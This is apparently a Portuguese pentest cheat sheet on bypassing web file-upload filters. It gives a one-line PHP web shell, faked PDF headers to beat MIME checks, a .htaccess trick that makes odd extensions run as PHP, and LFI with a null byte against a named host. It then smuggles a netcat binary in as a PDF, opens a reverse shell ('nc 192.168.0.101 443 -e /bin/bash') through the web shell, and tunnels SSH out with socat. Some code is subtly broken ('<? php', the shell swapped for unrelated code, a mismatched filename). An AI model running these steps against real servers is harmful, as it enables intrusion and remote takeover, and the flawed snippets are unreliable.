 # Bypass File Upload

Crie um arquivo shell.php:
```php
<?php system($_GET['cmd']); ?>
```

Envie em algum formulário o arquivo malicioso.
Caso o arquivo seja barrado na extensão, tente alterar a extensão do arquivo e teste novamente.

Caso a aplicação faça a verificação via cabeçalho do arquivo será necessário efetuar algumas alterações no arquivo PHP.

Código de verificação de arquivo simples:
```php
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```
```bash
php arquivo.php
```

Verificando o header do arquivo:
head -n1 arquivo.pdf
Output: %PDF-1.3

Alterando header da shell.php:
```php
%PDF-1.3
<? php
echo mime_content_type('arquivo.php') . "\n";
?>
```

Tente subir o código maliciosa para a aplicação novamente e use o LFI/RFI:  
``
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=uname -a
``

Em alguns casos o código enviado para o site não é interpretado como PHP e ao acessar aparece o seu conteúdo e não executa. Nesse caso devemos criar um arquivo .htaccess:  
```pcre
AddType application/x-httpd-php .sec
```
*Acima estamos falando que arquivos com extensão **.sec** devem ser interpretadas como PHP.*

Faça o upload do arquivo .htaccess para a aplicação e tente executar novamente o seu command execution.

## Fazendo Upload do NC

Criando arquivo nc com bypass:  
```bash
echo "%PDF-1.3" > header.pdf
```
```bash
cat header /bin/nc > nc.pdf
```

Envie o arquivo via formulário vulnerável.

Utilizando o NC:  
``
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=tail -n +2 uploads/nc.pdf > nc  
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=chmod 777 nc  
rh.businesscorp.com.br/index.php?page=uploads/shell.pdf%00&cmd=nc 192.168.0.101 443 -e /bin/bash
``

## Utilizando SOCAT

O SOCAT é utilizado para efetuar o tunelamento de portas filtradas.

#### Uso no servidor:  
```bash
socat TCP4:NOSSOIP:8443 TCP4:127.0.0.1:22
```

#### Uso local:  
```bash
socat TCP4-LISTEN:8443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr
```

#### Acessando o tunelamento:
```bash
ssh root@127.0.0.1 -p 2222
```

Ou seja, o caminho está sendo feito da seguinte forma:  
127.0.0.1:2222 ==> 127.0.0.1:8443 <==> 192.168.0.100:8443 ==> 192.168.0.100:22  
**Onde o IP 192.168.0.100 é o alvo.**

